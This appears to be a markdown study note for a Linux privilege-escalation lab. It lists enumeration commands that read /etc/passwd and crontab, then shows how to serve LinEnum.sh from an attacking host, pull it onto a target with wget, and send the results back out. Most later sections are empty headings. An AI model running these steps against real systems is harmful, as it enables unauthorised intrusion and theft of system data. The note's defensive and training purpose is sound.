 # Linux Privilege Escalation


## Initial checklist

1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
2. Locating other services running or applications installed that may be abusable (SUID & out of date software)
3. Looking for automated scripts like backup scripts (exploiting crontabs)
4. Credentials (user accounts, application config files..)
5. Mis-configured file and directory permissions  

## Enumeration

### Query the System

`:> hostname` : Query the hostname  

`:> uname -a`  : Query Kernel information  

`:> cat /etc/passwd`  :  Identify system users  

`:> cat /etc/shells` : Identify potentially useful shells on the system

`:> cat /etc/crontab` : List cron jobs

`:> cat /proc/version` : Specifics about the kern verion and the GCC compilers use to build the kernel  

`:> cat /etc/issue` : Contains the pre-login prompt and can be changed



### LinEnum.sh to Exfiltrate the system information

Get LinEnum.sh onto the attacking device

`:> wget -O LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh`

Gain access to the target machine

![Logged In](assets/Linux-PrivEsc-01-LinEnum-01.png)

Open a simple server on the attacking device in the directory from where LinEnum can be transported.

`:> python3 -m http.server 8888`

![Python Server](assets/Linux-PrivEsc-01-LinEnum-02.png)  

On the target device, set up a location from where the script will run.  

![Target Locationls](assets/Linux-PrivEsc-01-LinEnum-03.png)  

Pull the script from the python server to the target device.  

`:> wget 10.201.47.243:8888/LinEnum.sh`

The serving attacker logs the "GET" request and the target device recevies the script

![wget LinEnum](assets/Linux-PrivEsc-01-LinEnum-04a.png)  

If the target device is permitted a WAN connection, pull the script from GitHub.

`:> wget -O LinEnumFromGit.sh https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`  

Add execution privileges to the script 

`:> chmod +x LinEnum.py`

![with exeuction](assets/Linux-PrivEsc-01-LinEnum-05.png)  

Run the script and output to a file that can be studied for escalation opportunities

`:> ./LinEnum.sh > enum.txt`

Shutdown the server on the attacking device

![Server Shutdown](assets/Linux-PrivEsc-01-LinEnum-06.png)  

Reverse the server setup and transfer the enum.txt to the attacking device for analysis and resource development.

![Data Exfiltration](assets/Linux-PrivEsc-01-LinEnum-07.png)

### Use FIND to identify useful file properties and attributes  


## SUID/GUID 

## Writeable /etc/passwd files

## Escaping the Vi editor

## Exploit Crontab

## Exploiting the PATH variable

## Other References

[!Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/)
[!David Varghese Writeup - Linux Privilege Escalation](https://david-varghese.medium.com/tryhackme-linux-privesc-9ea2cfac3b76)  
[!Christine Nec Writeup - Linux Privilege Escalation](https://dev.to/christinec_dev/try-hack-me-linux-privesc-complete-write-up-20fg)